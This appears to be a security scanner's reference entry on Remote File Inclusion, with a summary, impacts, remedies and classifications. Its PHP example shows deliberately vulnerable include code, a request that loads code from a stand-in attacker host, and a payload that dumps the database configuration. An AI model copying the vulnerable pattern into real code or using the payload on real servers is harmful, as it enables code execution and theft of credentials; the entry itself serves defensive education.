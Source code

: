 # Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="red">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
    <tr>
        <td>Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.</td>
    </tr>
</table>

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>


<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
    <tr>
        <td>This vulnerability allows an attacker to:<br>
        <ul>
            <li>Execute an unauthorized code on the server side application</li>
            <li>Execute an unauthorized code on the client side application</li>
            <li>Gain sensitive information</li>
            <li>Crash the server</li>
        </ul>
        </td>
    </tr>
</table>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```php
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of the <i>"malicious_code.php"</i>
```php
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 


<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
    <tr>
        <td>
          <ul>
            <li>The issue can be found in the <b>source code</b> on the <b>server side</b>.</li>
            <li>The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>
          </ul>
        </td>
    </tr>
</table>



<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
    <tr>
        <td>
        <ul>
            <li>The most effective solution is to avoid passing user-submitted input to any file system / framework API.</li>
            <li>If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.</li>
            <li>If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.</li>
        </ul>
        </td>
    </tr>
</table>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
    <tr>
        <td>PCI v3.2-, CAPEC-193, CWE-98, HIPAA-98, ISO27001-A.14.2.5, WASC-5, OWASP 2013-A1, OWASP 2017-A1, CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L</td>
    </tr>
</table>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
    <tr>
        <td>
        <ul>
            <li><a href="http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion">http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion</a></li>
            <li><a href="https://en.wikipedia.org/wiki/File_inclusion_vulnerability">https://en.wikipedia.org/wiki/File_inclusion_vulnerability</a></li>
        </ul>
    </tr>
</table>